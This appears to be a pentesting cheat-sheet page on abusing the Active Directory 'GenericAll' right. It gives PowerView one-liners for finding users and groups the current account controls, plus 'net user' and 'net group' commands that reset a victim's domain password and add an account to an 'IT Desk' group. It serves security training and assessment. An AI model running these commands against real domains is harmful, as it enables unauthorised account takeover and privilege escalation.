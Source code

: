 # GenericAll

## <mark style="color:red;">GenericAll in Users</mark>

Find domain users that current user has `GenericAll` access right to:

```powershell
powerPowerView3 > Get-DomainUser | Get-ObjectAcl -ResolveGUIDs | % {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | % {if ($_.Identity -eq $("$env:UserDomain\$env:UserName")) {$_}} ? {$_.ActiveDirectoryRights -like "*GenericAll*"}
```

![](<../../../../.gitbook/assets/image (270).png>)

The attacker can change password of discovered users:

```powershell
Cmd > net user snovvcrash Passw0rd! /domain
```

## <mark style="color:red;">GenericAll on Groups</mark>

Find domain groups that current user has `GenericAll` access right to:

```powershell
PowerView3 > Get-DomainGroup | Get-ObjectAcl -ResolveGUIDs | % {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | % {if ($_.Identity -eq $("$env:UserDomain\$env:UserName")) {$_}} ? {$_.ActiveDirectoryRights -like "*GenericAll*"}
```

The attacker can add users to discovered groups:

```
Cmd > net group "IT Desk" snovvcrash /add /domain
```
